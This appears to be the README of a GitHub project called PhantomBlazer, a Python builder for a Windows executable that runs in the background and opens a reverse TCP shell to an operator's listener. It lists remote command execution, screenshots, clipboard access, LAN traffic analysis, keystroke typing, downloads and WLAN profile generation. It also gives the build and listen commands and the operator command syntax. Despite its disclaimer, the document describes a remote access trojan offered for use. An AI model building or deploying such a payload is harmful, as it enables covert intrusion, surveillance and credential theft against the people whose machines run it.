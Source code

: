  # PhantomBlazer

**PhantomBlazer is a Python-based framework that creates an executable file with various parameters. It allows users to perform a reverse TCP connection and execute cmd commands.**
## Features

- [x] Reverse TCP connection
- [x] Execute cmd commands
- [x] Collect OS info
- [x] Set clipboard text
- [x] Get clipboard text
- [x] Take screenshot
- [x] Start file server
- [x] Analyze LAN traffic
- [x] Type text
- [x] Download URL
- [x] Open link
- [x] Generate WLAN profile
## Requirements
> Same platform as the client
## Usage

PhantomBlazer can be executed with the following parameters:
``` 
    --mode/-m: Mode: accepts > build or listen
    --lhost/-lh: The local host IP address
    --lport/-lp: The local port number
    --output/-o: The output file name
```
> Example: ``` python3 phantomblazer.py -m build --lh <ip.address> --lp <port> --output<application.name>.exe```
> Before payload execution on client: ``` python3 phantomblazer.py -m listen --lh <ip.address> -lp <port> ```

### Inbuilt ommands can be executed using the following syntax:
```
    collect-os-info
    set clipboard <text>
    get clipboard
    take screenshot
    start file server
    analyze lan traffic
    type <text>
    download <url>
    open link <link>
    generate wlan profile *
    generate wlan profile <name>
```
## DISCLAIMER:
This tool is intended for legal and ethical use only. The creator of this tool is not responsible for any illegal or unethical use of this tool.

The tool creates a .exe file which runs as a background and creates a reverse TCP connection, allowing for remote command execution. This tool is intended for debugging purposes and should not be used to gain unauthorized access to systems.

Please use this tool at your own risk and with the appropriate permissions from the system owners. Any actions taken with this tool are the sole responsibility of the user.

By using this tool, you agree to the <a href = "https://github.com/devsdenepal/PhantomBlitz/blob/main/terms-and-conditions.md">```terms and conditions```</a> outlined above and acknowledge that any misuse of this tool is strictly prohibited.
